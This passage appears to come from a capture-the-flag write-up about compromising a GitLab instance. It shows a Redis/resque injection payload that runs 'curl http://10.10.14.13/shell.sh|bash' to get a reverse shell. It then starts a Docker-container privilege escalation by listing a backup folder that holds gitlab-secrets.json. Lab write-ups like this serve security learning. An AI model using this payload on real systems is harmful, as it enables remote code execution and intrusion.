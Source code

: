 ```http
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|curl http://10.10.14.13/shell.sh|bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
%2F.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=newnew&project%5Bnamespace_id%5D=6&project%5Bpath%5D=newnew&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```
{% endcode %}

Afterwards, it would download and execute a reverse shell script from us:

<figure><img src="../../../.gitbook/assets/image (117) (4).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag after this.

## Privilege Escalation

We find that we are currently in a Docker container as commands like `sudo`, `ipconfig` are all not present. Also, a lot of essential services aren't running. So now, let's think about how to escape this container.&#x20;

### Root Credentials

Within the `/opt` directory, there is a backup folder.

```
git@gitlab:/opt$ ls -la
total 24
drwxr-xr-x 1 root root 4096 Apr  5  2022 .
drwxr-xr-x 1 root root 4096 Apr  5  2022 ..
drwxr-xr-x 2 root root 4096 Apr  5  2022 backup
drwxr-xr-x 1 root root 4096 Apr  5  2022 gitlab

git@gitlab:/opt/backup$ ls -la
total 112
drwxr-xr-x 2 root root  4096 Apr  5  2022 .
drwxr-xr-x 1 root root  4096 Apr  5  2022 ..
-rw-r--r-- 1 root root   904 Apr  5  2022 docker-compose.yml
-rw-r--r-- 1 root root 15150 Apr  5  2022 gitlab-secrets.json
-rw-r--r-- 1 root root 81492 Apr  5  2022 gitlab.rb
```
